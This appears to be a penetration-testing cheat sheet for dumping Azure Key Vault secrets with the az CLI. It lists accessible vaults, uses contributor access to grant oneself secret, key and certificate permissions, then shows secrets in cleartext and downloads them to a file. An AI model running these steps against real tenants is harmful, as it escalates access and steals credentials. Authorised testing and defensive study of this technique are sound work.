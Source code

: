 # Az Linux CLI Tool

### Authentication

 - az login

# Dump Azure Key Vaults

### List out any key vault resources the current account can view

 - az keyvault list –query '[].name' --output tsv

### With contributor level access you can give yourself the right permissions to obtain secrets.

 - az keyvault set-policy --name KEY_VAULT_NAME --upn YOUR_CONTRIBUTOR_USERNAME --secretpermissions get list --key-permissions get list --storage-permissions get list --certificate-permissions get list

### Get URI for Key Vault

 - az keyvault secret list --vault-name KEY_VAULT_NAME --query '[].id' --output tsv

### Get cleartext secret from keyvault

 - az keyvault secret show --id URI_FROM_LAST_COMMAND | ConvertFrom-Json

### Download the secret from keyvault in a .pem file for better formatting

 - az keyvault secret download --id URI_ID --file KEY.pem
